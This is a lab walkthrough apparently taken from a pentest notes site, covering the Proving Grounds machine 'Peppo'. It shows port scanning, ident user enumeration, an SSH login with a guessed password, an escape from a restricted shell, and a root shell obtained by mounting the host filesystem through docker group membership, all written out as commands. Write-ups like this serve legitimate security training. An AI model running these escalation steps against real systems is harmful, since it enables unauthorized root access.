 ```yaml
---
description: Pg Practice Peppo writeup
---
```


# Peppo

## Nmap

```
sudo nmap 192.168.100.60 -p- -sS -sV

PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
5432/tcp  open   postgresql        PostgreSQL DB 9.6.0 or later
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open   snet-sensor-mgmt?
```

As `ident` is running we can use the Perl script `ident-user-enum` to identify which services are running under what user.

![](<../../../.gitbook/assets/image (993).png>)

Port 10000 reports it is running under the user 'eleanor'. I tried Bruteforcing the username on `SSH` and had no luck. Eventually simply trying `eleanor:elenaor` I was able to login on SSH.

![](<../../../.gitbook/assets/image (994).png>)

We see from trying the `id` command we are locked in with a restricted bash shell. Checking out our command availability by viewing `$PATH` we can see what binaries we have access to.

![](<../../../.gitbook/assets/image (995).png>)

Checking GTFObins for any of these binaries than can spawn a shell to escape a restricted one:

![](<../../../.gitbook/assets/image (996).png>)

After running the above command we can export a new path and then spawn a python shell then again export the path to have full functionover the shell session.

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
python -c 'import pty; pty.spawn("/bin/bash")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

![](<../../../.gitbook/assets/image (997).png>)

The command `id` shows we are a member of the docker group. GTFObins again shows a method for spawning a root shell when we are a member of the docker group.

![](<../../../.gitbook/assets/image (998) (1).png>)

First check what images we have available to us:

```
docker image ls
```

![](<../../../.gitbook/assets/image (999).png>)

We can use the GTFObins command replacing the value `<alpine>` with one of the images listed above.

```
docker run -v /:/mnt --rm -it redmine chroot /mnt sh
```

Returning a shell as root:

![](<../../../.gitbook/assets/image (1000).png>)

{% hint style="success" %}
If you found this page helpful to you, please rate below as per the feedback options. For any corrections or general communications, please see the root page [**Pentest Everything**](https://app.gitbook.com/o/NGHMB2t9fSTAeY25OyP5/s/-MFlgUPYI8q83vG2IJpI/) for contact information.
{% endhint %}
